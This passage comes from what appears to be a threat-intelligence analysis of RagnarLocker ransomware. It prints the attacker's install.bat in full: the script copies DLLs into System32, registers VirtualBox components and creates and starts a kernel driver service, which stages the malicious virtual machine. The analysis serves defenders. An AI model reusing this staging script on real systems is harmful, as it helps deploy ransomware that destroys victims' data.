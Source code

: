 ```
ID Build :

Go build ID: KV2n3VsFCwavIgwxQXZL/Nv7hogWa6h5VAeU6aePm/bi7Sh7YUKAi0x0t0X_VG/rnoNH8dZvwtWzl2CHS0W
```

<h4>We can also verify in editing a bat file for confirm that only launch the "install.bat" file on the current folder.</h4>
<center><img src="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/Additional%20Analysis/RagnarLocker/2020-08-08/Pictures/Payload.png"></img></center>

<h4>The script executed begins to check the architecture OS for preparing the correct settings for the rest of the script.</h4>

```bat
@echo off
REM enabledelayedexpansion -> asks the preprocessor not to replace the variable with its value.
setlocal enabledelayedexpansion 

IF EXIST "%PROGRAMFILES(X86)%" (goto x64var)
set binapp=app32
set programpath=%PROGRAMFILES%\VirtualAppliances
goto letsdothis

:x64var
set binapp=app64
set programpath=%PROGRAMFILES(X86)%\VirtualAppliances
```

<h4>This declares the globals variables for the script and copies the dlls needed for the next instructions on the folders if not present.</h4>

```bat
:letsdothis
set binpath=%programpath%\%binapp%
set sysdir=%windir%\System32
cd "%programpath%"

REM copy the dll for .NET 3.5 requirement
IF NOT EXIST "%PROGRAMFILES(X86)%" (
	IF NOT EXIST "%sysdir%\msvcp71.dll" copy /y "%binpath%\msvcp71.dll" %sysdir%\msvcp71.dll
	IF NOT EXIST "%sysdir%\msvcr71.dll" copy /y "%binpath%\msvcr71.dll" %sysdir%\msvcr71.dll
	IF NOT EXIST "%sysdir%\msvcrt.dll" copy /y "%binpath%\msvcrt.dll" %sysdir%\msvcrt.dll
)
IF EXIST "%PROGRAMFILES(X86)%" (
	IF NOT EXIST "%sysdir%\msvcp80.dll" copy /y "%binpath%\msvcp80.dll" %sysdir%\msvcp80.dll
	IF NOT EXIST "%sysdir%\msvcr80.dll" copy /y "%binpath%\msvcr80.dll" %sysdir%\msvcr80.dll
)
```

<h4>The next instructions launch the service, the dlls of Virtualbox.</h4>

```bat
REM Register the appliance
%binapp%\VBoxSVC.exe /reregserver

REM launch the DLL 
regsvr32 /S "%binpath%\VBoxC.dll"
rundll32 "%binpath%\VBoxRT.dll,RTR3Init"

REM Create and Launch the service as kernel
sc create VBoxDRV binpath= "%binpath%\drivers\VBoxDrv.sys" type= kernel start= auto error= normal displayname= PortableVBoxDRV
sc start VBoxDRV
```
